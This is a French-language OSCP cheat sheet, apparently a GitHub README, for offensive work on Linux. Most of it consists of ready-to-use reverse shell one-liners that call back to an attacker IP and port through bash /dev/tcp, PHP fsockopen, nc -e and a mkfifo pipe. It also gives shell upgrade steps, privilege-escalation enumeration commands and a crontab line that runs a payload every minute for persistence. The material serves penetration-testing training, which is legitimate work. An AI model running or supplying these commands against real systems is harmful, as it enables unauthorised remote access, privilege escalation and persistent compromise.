 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/f9d72356-a603-42c4-92b4-dfeff2f868b8" width="450">

## Reverse shell:
Ouvrir un port coté attaquant : nc -lvp [PORT]  
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1  
php -r '$s=fsockopen("[IP]",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'  
nc [IP] [PORT] -e /bin/bash  
cd /tmp ; rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc [IP] [PORT] > f  

Plus de méthodes ici : https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/  

### Spawn TTY:
•	python -c 'import pty; pty.spawn("/bin/sh")'  
•	SHELL=/bin/bash script -q /dev/null  
•	/usr/bin/script -qc /bin/bash /dev/null  
Upgrade reverse shell:  
1.	Ctrl + Z  
2.	stty raw -echo ; fg  
## Énumération :
**Liste les répertoires accessibles en écriture :** find / -type d -writable 2> /dev/null  
**Liste des SUID:** find / -type f -perm /6000 -ls 2>/dev/null  

**Script pour l'énumération :**  
•	lse.sh  
•	LinEnum.sh  
•	LinPEAS.sh  

**Voir la version du système :**  
•	Version du noyau: uname -mr  
•	Version de l'OS: lsb_release -a  

**Voir les processus qui sont executés en arrière-plan:**  
•	pspy  
•	Voir si il y a une crontab  de configurée: cat /etc/crontab  

**Voir les ports en écoute :**  
netstat -tulpn  
Exploitation des droits SUDO/SUID sur des binaires connu:  
https://gtfobins.github.io/
  
**Persistance via crontab:** (crontab -l 2>/dev/null; echo "* * * * * /home/aero/floflo.elf") | crontab -  
